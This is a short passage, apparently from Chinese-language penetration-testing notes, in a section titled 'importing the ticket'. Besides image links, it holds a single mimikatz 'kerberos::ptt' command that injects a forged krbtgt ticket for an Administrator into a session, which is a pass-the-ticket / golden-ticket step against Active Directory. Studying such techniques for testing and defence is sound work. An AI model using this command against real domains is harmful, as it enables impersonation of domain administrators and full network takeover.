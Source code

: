 ![image-20230801160959106](assets/image-20230801160959106-17299573757666.png)

![image-20230801161120165](assets/image-20230801161120165-17299573757668.png)

### 2.2.5. 导入票据

然后在将票据导出，其实就是伪造票据。

```
mimikatz kerberos::ptt [0;bbd89]-2-0-60a00000-Administrator@krbtgt-0DAY.ORG.kirbi
```
